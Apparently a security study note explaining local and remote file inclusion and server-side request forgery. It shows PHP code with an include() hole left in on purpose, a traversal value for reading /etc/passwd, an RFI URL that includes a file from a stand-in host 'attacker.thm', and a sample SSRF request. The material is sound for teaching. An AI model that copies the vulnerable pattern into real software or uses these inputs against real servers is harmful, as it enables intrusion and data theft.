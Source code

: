 ### Local File Inclusion (LFI)

LFT attacks against web applications follows similar concepts as path traversal. PHP functions such as include, require, include_once, and require_once often contribute to vulnerable web applications.

In the following example, the `include` PHP function can be used to obtain sensitive information by changing the `lang` input to `/etc/passwd` which would be equivalent to `http://webapp.thm/index.php?lang=../../../../etc/passwd`:

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

### Remote File Inclusion (RFI)

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.

For example, an attacker could host a php file where `cmd.txt` prints `Hello Bros`:

```php
<?PHP echo "Hello Bros"; ?>
```

Next, the attacker injects their malicious URL into a form that has no input validation so that the page executes the remote file: `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`

### Server-Side Request Forgery (SSRF)

SSRF is a vulnerability that causes the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing

There are 2 types of SSRF: regular SSRF where data is returned or blind SSRF where no data is returned to the attacker.

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

The following SSRF example an API to retrieve stock status of an item is exploited to request the contents of the `/admin` file on the server itself:

Vulnerability:

``` HTTP
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
